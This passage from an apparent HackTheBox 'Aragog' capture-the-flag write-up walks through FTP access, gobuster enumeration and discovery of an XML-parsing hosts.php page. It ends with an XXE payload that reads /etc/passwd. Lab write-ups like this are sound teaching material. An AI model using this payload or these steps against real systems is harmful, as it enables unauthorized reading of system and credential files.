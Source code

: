 We login as anonymous and get the test.txt file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:00:58.png)

Humm... a subnet file. Ok let's continue to port 80.

## Port 80

We try to open it on the browser

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:04:22.png)

Default apache page, we run gobuster to find anything in it

We run with -x php,html to look for this files too

```sh
gobuster dir -u http://10.10.10.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:06:42.png)

We find one interesting which is the `hosts.php`

We open it on the browser

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:07:42.png)

We see what seems to be a number of possible hosts

We send it to burp

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:08:37.png)

And try to send the data from ftp in it as POST request

And we see that is parsing it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:09:09.png)

So it is typical for XEE

We start looking for XEE payload and found this post from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml) and this one which [Explains](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection) XEE attack very well detailed.

So, the payload is this

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
